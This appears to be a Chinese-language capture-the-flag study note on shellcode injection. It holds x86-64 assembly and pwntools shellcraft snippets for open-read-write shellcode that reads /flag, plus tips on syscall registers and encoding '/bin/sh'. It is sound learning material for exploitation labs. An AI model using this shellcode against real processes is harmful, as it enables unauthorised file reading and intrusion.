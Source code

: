 ```yaml
---
title: "Shellcode Injection"
date: 2024-10-31
---
```

# 目录
> Tips：可以使用 IDA 任意找一个 ELF 文件，通过修改指令来进行测试具体指令的 hex 字符

```
print(disasm(shellcode)) # 可以查看shellcode的字节码和汇编

把mov rdi,rcx改为mov edi,ecx，在给edi赋值时会将高32位全部设为0

context.terminal=['tmux','splitw','-h']  # 指定运行终端

0x3024           # 0$
0x68732f6e69622f			#  hs/nib/
0x67616C662F   # galf/

参数寄存器顺序：rdi,rsi,rdx,r10,r9,r8......
```
# level 1 execve 或 orw 
## orw
> 参见sandboxing部分shellcode编写

```python
xor rax, rax   #xor rax,rax是对rax的清零运算操作
xor rdi, rdi   #清空rdi寄存器的值
xor rsi, rsi   #清空rsi寄存器的值
xor rdx, rdx
mov rax, 2      #open调用号为2
mov rdi, 0x67616c662f #为galf/为/flag的相反  
#      0x67616c662f2f为/flag的ASCII码的十六进制
push rdi
mov rdi, rsp
syscall  

mov rdx, 0x100   #sys_read(3,file,0x100)
mov rsi, rdi
mov rdi, rax
mov rax, 0      #read调用号为0 ;           文件描述符0则表示 标准输入即外部输入，例如键盘
syscall

mov rdx,0x30
mov rdi, 1      #sys_write(1,file,0x30)
mov rax, 1      #write调用号为1;         文件描述符1表示标准输出，指的是屏幕
syscall
```
```python
# 下面这个没成功
shell = shellcraft.open("/flag")
shell += shellcraft.read(0,elf.bss()+0x100,1024)
shell += shellcraft.write(1,elf.bss()+0x100,1024)

# 这个可以
shellcode =  asm(shellcraft.readfile("/flag", 1))
shellcode = shellcraft.cat("/flag")  # 借鉴一下
# 实质是调用了open，sendfile，参见末尾链接查看shellcreaf手册
```